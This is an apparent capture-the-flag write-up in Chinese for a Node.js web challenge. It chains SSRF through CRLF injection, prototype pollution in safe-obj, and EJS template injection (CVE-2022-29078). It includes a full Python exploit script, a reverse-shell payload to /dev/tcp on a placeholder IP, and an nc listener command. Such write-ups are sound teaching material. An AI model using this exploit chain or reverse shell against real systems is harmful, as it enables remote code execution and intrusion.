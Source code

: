 ![[Pasted image 20230202140119.png|500]]

```javascript
var express = require('express');
var http = require('http');
var router = express.Router();
const safeobj = require('safe-obj');
router.get('/', (req, res) => {
    if (req.query.q) {
        console.log('get q');
    }
    res.render('index');
})
router.post('/copy', (req, res) => {
    res.setHeader('Content-type', 'text/html;charset=utf-8')
    var ip = req.connection.remoteAddress;
    console.log(ip);
    var obj = {
        msg: '',
    }
    if (!ip.includes('127.0.0.1')) {
        obj.msg = "only for admin"
        res.send(JSON.stringify(obj));
        return
    }
    let user = {};
    for (let index in req.body) {
        if (!index.includes("__proto__")) {
            safeobj.expand(user, index, req.body[index])
        }
    }
    res.render('index');
})

router.get('/curl', function (req, res) {
    var q = req.query.q;
    var resp = "";
    if (q) {
        var url = 'http://localhost:3000/?q=' + q
        try {
            http.get(url, (res1) => {
                const {statusCode} = res1;
                const contentType = res1.headers['content-type'];

                let error;
                // 任何 2xx 状态码都表示成功响应，但这里只检查 200。
                if (statusCode !== 200) {
                    error = new Error('Request Failed.\n' +
                        `Status Code: ${statusCode}`);
                }
                if (error) {
                    console.error(error.message);
                    // 消费响应数据以释放内存
                    res1.resume();
                    return;
                }

                res1.setEncoding('utf8');
                let rawData = '';
                res1.on('data', (chunk) => {
                    rawData += chunk;
                    res.end('request success')
                });
                res1.on('end', () => {
                    try {
                        const parsedData = JSON.parse(rawData);
                        res.end(parsedData + '');
                    } catch (e) {
                        res.end(e.message + '');
                    }
                });
            }).on('error', (e) => {
                res.end(`Got error: ${e.message}`);
            })
            res.end('ok');
        } catch (error) {
            res.end(error + '');
        }
    } else {
        res.send("search param 'q' missing!");
    }
})
module.exports = router;
```

存在三个路由，其中`/copy`只能由本地访问，`/curl`通过`http.get`方法访问`/`

要想访问`/copy`路由，需要通过`/curl`进行SSRF

参考 [NodeJS 中的 CRLF Injection](https://www.anquanke.com/post/id/240014#h2-11)

利用node.js的`http`模块对于Unicode字符截取低位字节的特性，可以绕过低版本node.js对CRLF的转义，实现HTTP的响应拆分，获得对`/copy`的访问能力

---

`/copy`中可以利用的是`safe-obj`模块

参见 [safe-obj模块原型链污染](https://xz.aliyun.com/t/12053#toc-17)

利用`safe-obj`的`expand`函数，可以实现为任意对象添加字符串属性

```javascript
if (!index.includes("__proto__")) {
	safeobj.expand(user, index, req.body[index])
}
```

源码中过滤了`__proto__`，然而通过`constructor.prototype`亦能获取到原型

---

参考 [(CVE-2022-29078)The RCE exploit 🔥🔥](https://eslam.io/posts/ejs-server-side-template-injection-rce/#the-rce-exploit-)

`ejs`模块低版本有这样的逻辑

```javascript
prepended +=
    '  var __output = "";\n' +
    '  function __append(s) { if (s !== undefined && s !== null) __output += s }\n';
if (opts.outputFunctionName) {
    prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
}
```

将未经过转义处理的`outputFunctionName`通过拼接方式加入代码中执行，前提是`opts`能够解析出`outputFunctionName`属性

于是构造`POST`内容

```javascript
constructor.prototype.outputFunctionName=x;process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"');s
```

来实现反弹shell

---

最终脚本如下

```python
import requests
from urllib.request import quote

payload = """ HTTP/1.1

POST /copy HTTP/1.1
Host: 127.0.0.1
Content-Length: {}
Content-Type: application/x-www-form-urlencoded

{}

GET / HTTP/1.1
test:""".replace('\n', '\r\n')

body = """constructor.prototype.outputFunctionName=x%3Bprocess.mainModule.require%28%27child_process%27%29.execSync%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/xxx.xxx.xxx.xxx/2333%200%3E%261%22%27%29%3Bs"""

payload = payload.format(len(body), body)


def payload_encode(raw):
    res = ''
    for i in raw:
        res += chr(0x0100 + ord(i))
    return res


requests.get(
    'http://3000.endpoint-68e34d3c59d64675ad67a1b75741c685.m.ins.cloud.dasctf.com:81/curl?q='
    + quote(payload_encode(payload)))

```

vps上开启监听

```shell
nc -lvvp 2333
```

![[Pasted image 20230202150044.png|700]]

#Web #nodejs #HTTP #CRLF #SSRF #safe-obj #原型污染 #js #ejs #RCE #Vulnerabilities #反弹shell 